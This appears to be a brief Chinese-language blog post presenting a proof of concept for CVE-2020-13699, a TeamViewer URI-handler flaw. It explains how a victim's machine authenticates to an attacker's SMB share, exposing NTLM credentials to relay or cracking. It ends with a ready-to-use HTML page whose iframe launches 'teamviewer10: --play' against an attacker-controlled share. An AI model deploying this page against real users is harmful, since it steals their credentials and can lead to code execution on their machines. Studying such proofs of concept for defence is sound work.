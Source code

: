 ```yaml
---
title: CVE-2020-13699  POC
categories: [dev]
comments: true
---
```

####  漏洞编号：CVE-2020-13699，严重程度8.8分。属于特殊的安全漏洞类别，称为“  无引号的搜索路径或元素（CWE-428）”。这些利用了以下事实：传递给程序的参数不被“引用”。

#### 攻击者无需密码
`此外，由于SMB共享，并且是受害者的计算机发起与攻击者的SMB共享的连接，因此攻击者不需要知道用户的密码。他们将自动通过身份验证并获得访问权限。`

霍夫曼解释说：“ Windows在打开SMB共享时将执行NTLM身份验证，并且可以转发该请求（使用诸如响应程序之类的工具）以执行代码（或捕获该请求以进行哈希破解）。” 

这位工程师认为，从可用于攻击的URI方案中可以明显看出，多个TeamViewer版本受到了影响。


```
<html>

<head>
<title>CVE-2020-13699 POC</title>
</head>

<body>
<p1>测试</p1>
<iframe src='teamviewer10: --play \\attacker-IP\share\fake.tvs'></iframe>
</body>

</html>
```
